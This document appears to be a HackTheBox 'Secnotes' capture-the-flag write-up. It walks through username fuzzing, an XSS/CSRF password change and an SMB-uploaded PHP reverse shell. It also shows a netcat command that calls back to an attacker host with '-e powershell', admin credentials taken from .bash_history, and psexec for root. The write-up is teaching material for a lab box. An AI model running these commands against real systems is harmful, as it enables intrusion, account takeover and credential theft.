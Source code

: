 # HackTheBox - Secnotes

### What I Learned

1. Always check the desktop directory of the user you just compromised. In these machines, there is usually good information there. I missed it this time and had to go back an hour later.
2. A bash shell running in windows can often get you root access to files that the inital user does not have access to.
3. The SMB share goes both ways. You can use inital access to upload a file like netcat or a meterpreter shell.

<details>
  <summary><strong>Writeup Summary</strong></summary>
Windows machine that uses SQL injection and some XSS with the logins for access to the notes app. Escalate privileges from there using a root shell installed on the machine.

Scan the machine and find a login page on port 80 that is running php version 7.2.7. Check for valid usernames using a fuzzing attack with the `wfuzz` tool and find `tyler`. Find that when a note is created, the website doesn't sanitize inputs and executes HTML directly. In the contactUs form, find that the command is run in powershell. Use this and the `Change Password` URL to change tyler's password. Once in Tyler's notes, find an smb share. Use that to gain initial access and a shell. Find bash installed on the machine and run it. Find the `.bash_history` file and find an administrator password. Exploit it to get root.

</details>
<br>

## Writeup

Scan the machine for open ports
`nmap --open -p- -oA nmap/open <IP>`

Find ports 80, 445, and 8808 are open

#### Scan the open ports

![alt text](images/image.png)
![alt text](images/image-1.png)

Go to the website on port 80
`http://10.129.244.217/login.php`

#### Check for valid usernames using wfuzz

- find the username "tyler"

```
wfuzz -c -w /usr/share/wordlists/seclists/Usernames/Names/names.txt -d "username=FUZZ&password=password" --hs "No account found with that username." -u http://10.129.244.217/login.php
```

![alt text](images/image-3.png)

#### Create a new user and Login

Clicking around, you find the change password API on the page does not include verifying your old password, so that could be exploited later.

- If the request is changed from a POST to a GET, you can change the password.
  ![alt text](images/image-4.png)

#### Create a note and add \<center\> tags to the content of the pages

![alt text](images/image-5.png)

#### Notes and their content are centered. HTML is not sanitized at all, so website is vulnerable to XSS

![alt text](images/image-6.png)

Create an html file with an iframe in it linking to the url in the password reset page from burp.
![alt text](images/image-10.png)

Test it on yourself and find that the link takes you to the page but doesn't fill in any information or click any links. Try sending it to tyler directly.
![alt text](images/image-8.png)

It works and you can now login as tyler using the `password112` password

Check smb shares on the target machine using the credentials found in tyler's notes.
![alt text](images/image-9.png)

Login to the smb share using the credentials

`smbclient \\\\10.129.33.69\\new-site -U tyler`

Try to get a reverse shell by uploading a file to the website using the SMB share
`revsh.php`  
Use the put command from the smb share to upload the file.
![alt text](images/image-11.png)

Run it from the browser and website using
`http://10.129.44.254:8808/revsh.php?fakename=whoami`

Download netcat64 to get a better shell than the smbclient  
https://eternallybored.org/misc/netcat/

Use the smbshare to upload it to the target machine  
`put nc64.exe`

Run the netcat shell using  
`http://<RHOST>:8808/request.php?fakename=nc64.exe <LHOST> <LPORT> -e powershell`

Get a reverse shell  
![alt text](images/image-12.png)

Check the `bash.lnk` file  
Bash is installed on this windows machine, so run it using `bash`  
![alt text](images/image-13.png)

check the user and find you are running as the root user  
![alt text](images/image-14.png)

`cd` to mnt (mount) which is where the C drive is
Try `cd /root`
![alt text](images/image-15.png)

find the `.bash_history` file which contains an admin user and password
![alt text](images/image-16.png)

Get a root shell using  
`impacket-psexec administrator@<IP_ADDR>`
